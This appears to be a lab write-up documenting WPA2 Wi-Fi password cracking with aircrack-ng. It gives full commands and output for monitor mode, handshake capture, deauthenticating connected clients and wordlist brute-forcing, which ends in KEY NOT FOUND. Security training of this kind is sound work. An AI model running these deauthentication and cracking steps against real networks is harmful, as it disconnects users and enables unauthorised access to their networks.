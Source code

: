 # Aircrack-ng

This is documentation for using aircrack-ng as tools
to crack password files.

### [starting airmon-ng]

This command is used for checking if the wifi card supports monitoring mode or not.

````
$ sudo airmon-ng start wlp1s0

PHY	Interface	Driver		Chipset

phy0	wlp1s0		ath9k		Qualcomm Atheros QCA9565 / AR9565 Wireless Network Adapter (rev 01)

		(mac80211 monitor mode vif enabled for [phy0]wlp1s0 on [phy0]wlp1s0mon)
		(mac80211 station mode vif disabled for [phy0]wlp1s0)
````
    
### [airodump-ng ESSID]

````
$ sudo airodump-ng wlp1s0mon
````

````
 CH  8 ][ Elapsed: 1 min ][ yyyy-mm-dd hh:mm 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 MA:C0:AD:DR:ES:S0  -57       87        4    0   1   65   WPA2 CCMP   PSK  hello-world
 xx:xx:xx:xx:xx:xx  -75      125     1073   46   5  130   WPA2 CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -83       29       10    0   6  130   WPA2 CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -88       35        0    0   1  130   WPA  CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -87       16        0    0   8  130   WPA2 CCMP   PSK  xxxxxxxxxx

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 xx:xx:xx:xx:xx:xx  xx:xx:xx:xx:xx:xx  -33    0e- 0e     0       22                     
 xx:xx:xx:xx:xx:xx  xx:xx:xx:xx:xx:xx   -1    1e- 0      0        1             
 
````

### [airodump-ng and aireplay-ng]

To get four way handshake, we need this two services to run together.
The tools will then connect each other to indicate the handshake has
been made or not. Fail to do this or quickly stopping the scan will
then lead to failure to do the handshake that we need. It'll also
generate .cap file that we can use to do password cracking with
aircrack-ng.
 
### [airodump-ng]

By using airodump-ng, we can see essid around us that can be pawned.
What we need in this session is [WPA handshake: D0:37:45:AB:CC:D3],
this will indicate that the wpa handshake is understood. It'll show
when we do the next step. `pwnd` will be the name of the file for 


````
$ sudo airodump-ng -c 4 --bssid MA:C0:AD:DR:ES:S0 --write pwnd wlp1s0mon
````

````
 CH  1 ][ Elapsed: 1 min ][ yyyy-mm-dd hh:mm ][ WPA handshake: MA:C0:AD:DR:ES:S0
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 MA:C0:AD:DR:ES:S0  -56  87      528      465    1   1   65   WPA2 CCMP   PSK  hello-world

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 MA:C0:AD:DR:ES:S0  xx:xx:xx:xx:xx:xx  -36    1 - 1      0      331                                                               
 MA:C0:AD:DR:ES:S0  xx:xx:xx:xx:xx:xx  -35    0e- 1     46      396  EAPOL     
````

### [aireplay-ng deauth]
Deauthenticating user that is connected to the network means
that they have to do the same login to then connect to the 
wifi that we're trying to brute-forcing. By doing this, it'll
then taking the information to do handshake with airdump-ng.

````
$ sudo aireplay-ng --deauth 50 -a MA:C0:AD:DR:ES:S0 wlp1s0mon
````

````
yyyy-mm-dd hh:mm:ss,1900-01-00 00:00:00,,MA:C0:AD:DR:ES:S0,-43,,0.000000,0.000000,0.000,0.000,Client
````


### [file list]

This is the list structure of the folder. there will be 6
files that will be indicated by the name
````
~/lab7 ls
.  ..  pwnd-01.cap  pwnd-01.csv  pwnd-01.kismet.csv  pwnd-01.kismet.netxml  pwnd-01.log.csv  readme.md
````


### [aircrack-ng command]
 
aircrack-ng will then do the cracking by using the wordlist that has
been indicated on the wordlist.txt, in this file, I'll be using
`common-wordlist.txt` as wordlist file.

````
$ sudo aircrack-ng pwnd-01.cap -w common-wordlist.txt 
````

as you can see on the results below, aircrack-ng says `KEY NOT FOUND`
this means that it can't pawn the network SSID because the wordlist
is not sufficient for this purpose.

````
                               Aircrack-ng 1.6 

      [00:00:00] 478/477 keys tested (2002.39 k/s) 

      Time left: --

                                KEY NOT FOUND


      Master Key     : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
````

in the end, aircrack-ng can do its job if the wordlist is good enough
that it contains password for doing the cracking, otherwise it'll not
be useful. Brute-forcing is a good technique to use if you have enough
information of the target, otherwise, it'll fail.

